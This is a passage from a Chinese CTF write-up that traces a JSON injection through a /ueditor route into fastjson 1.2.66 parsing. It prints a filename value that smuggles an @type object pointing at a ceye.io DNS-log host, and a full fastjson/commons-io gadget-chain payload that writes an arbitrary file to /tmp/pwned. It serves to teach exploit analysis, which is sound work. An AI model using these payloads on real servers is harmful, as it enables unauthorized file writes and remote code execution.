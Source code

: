 ![Alt text](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/image-4.png)

接着触发`toJSONString`通过拼接把恶意字符处理为字符串。

![Alt text](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/1694868670291.png)


发现以上函数调用可以通过`/ueditor`路由触发，其中返回的`json`为恶意字符串，最终把`json`传给了`uploadService#uploadHandle`。因此我们可以看看`uplodaHandle`方法干了啥，使得一个`JSON`注入隐患最终造成远程命令执行。

![image-20240217194225885](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/image-20240217194225885.png)

#### fastjson common-io任意文件写

题目逻辑我都删减的差不多了，`uploadHandle`通过`parseObject`方法对恶意字符串进行解析，可以看到`json`已经被污染了。

![Alt text](https://squirt1e.oss-cn-beijing.aliyuncs.com/blog/image-5.png)

很明显`parseObject`有问题，本题用到的`fastjson`为`1.2.66`，版本不高因此存在利用的可能。观察`pom.xml`发现存在`commons-io 2.7`（多提一嘴`ueditor.jar`本身就引入了`common-io`）。不难想到`fastjson1.2.68`结合`common-io2.x`可以打一个任意文件写入，构造原理可以参考`su18`师傅发的博客。值得注意的一点是`json`的第一个属性`"state":"SUCCESS`"是不可控的，可能不太了解`fastjson`利用的师傅看到这里就绝望了，因为网上的`payload`都是`@Type`作为第一个属性开头的呀。其实这里一个小`trick`令`filename`为`flag",{"@type":"java.net.Inet4Address","val":"bgb5eh.ceye.io"},"a":".txt`即可正常恢复`Java Bean`。

```json
{
  "@type":"java.lang.AutoCloseable",
  "@type":"org.apache.commons.io.input.XmlStreamReader",
  "is":{
    "@type":"org.apache.commons.io.input.TeeInputStream",
    "input":{
      "@type":"org.apache.commons.io.input.ReaderInputStream",
      "reader":{
        "@type":"org.apache.commons.io.input.CharSequenceReader",
        "charSequence":{"@type":"java.lang.String""aaaaaa"
      },
      "charsetName":"UTF-8",
      "bufferSize":1024
    },
    "branch":{
      "@type":"org.apache.commons.io.output.WriterOutputStream",
      "writer": {
        "@type":"org.apache.commons.io.output.FileWriterWithEncoding",
        "file": "/tmp/pwned",
        "encoding": "UTF-8",
        "append": false
      },
      "charset": "UTF-8",
      "bufferSize": 1024,
      "writeImmediately": true
    },
    "closeBranch":true
  },
  "httpContentType":"text/xml",
  "lenient":false,
  "defaultEncoding":"UTF-8"
}
```
